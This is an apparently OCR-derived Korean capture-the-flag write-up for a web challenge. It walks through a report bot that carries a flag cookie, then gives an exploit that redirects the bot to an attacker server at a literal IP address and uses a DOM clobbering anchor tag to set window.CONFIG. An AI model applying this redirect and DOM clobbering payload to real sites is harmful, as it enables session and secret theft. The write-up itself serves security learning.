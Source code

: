 `POST`요청이면 `locathost`와 `report_url`폼 데이터를 결합해 `target_url`설정 

`target_url`로 `GET`요청을 보냈을 때 `404`이면 에러 메시지 출력

|

```python
cookie = {"name": "cookie", "value": FLAG}
success = read_url(target_url, cookie)

if success:
    message = f"Report success: {target_url}"
else:
    message = f"Report failed: {target_url}"
```

`target_url`이 유효하면 쿠키 전송

`read_url()`의 반환 값 여부를 `success`변수에 저장

`read_url()`함수 반환값이 있는 경우(`success`가 참인 경우), 성공 메시지.  아니면 실패 메시지 반환

|

|

|

## Exploit

```js
window.CONFIG = window.CONFIG || {
    check: true,
    location:"http//20.41.120.97:10010/",
};
if (window.CONFIG.check !== false) {
    location.href = window.CONFIG.location
}

```

`/practice`에 있는 스크립트 코드의 `window.CONFIG`객체를 위와 같이 `check: true`, `location: "공격자 서버 URL"`로 설정해줘야함

|

|

### window.CONFIG.check

---

```html
<a id="CONFIG" name="check">123</a>
```
